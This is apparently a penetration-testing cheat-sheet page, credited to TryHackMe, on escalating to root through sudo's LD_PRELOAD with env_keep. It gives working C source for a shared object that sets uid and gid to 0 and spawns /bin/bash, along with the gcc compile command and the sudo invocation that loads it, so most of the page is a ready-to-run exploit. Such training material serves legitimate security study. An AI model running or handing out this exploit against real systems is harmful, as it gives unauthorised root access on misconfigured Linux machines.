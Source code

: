 ```yaml
---
description: SUDO exploitation by LD_PRELOAD
---
```


# SUDO

View own SUDO permissions

`sudo -l`&#x20;

* LD\_PRELOAD

On some systems, you may see the LD\_PRELOAD environment option.

![https://i.imgur.com/gGstS69.png](https://i.imgur.com/gGstS69.png)

LD\_PRELOAD is a function that allows any program to use shared libraries. If the "env\_keep" option is enabled, we can generate a shared library that will be loaded and executed before running the program. Note that the LD\_PRELOAD option will be ignored if the actual user ID is different from the effective user ID.&#x20;

The steps of this privilege escalation vector can be summarized as follows;&#x20;

1. Check LD\_PRELOAD (with env\_keep option).
2. Write simple C code compiled as a shared object file (.so extension).
3. Run the program with sudo rights and the LD\_PRELOAD option pointing to our '.so' file.

&#x20;The C code will simply spawn a root shell and can be written as follows:

{% code overflow="wrap" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
{% endcode %}

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters:

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

![shell.c and compilation with gcc](https://i.imgur.com/HxbszMW.png)

We can now use this shared object file when starting any program that our user can run with sudo. In our case we can use Apache2, find, or almost any of the programs that we can run with sudo.

We need to run the program specifying the LD\_PRELOAD option, as follows:

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Screenshot showing changing to SUDO privileges with exploit</p></figcaption></figure>



_-Credits: TryHackMe_
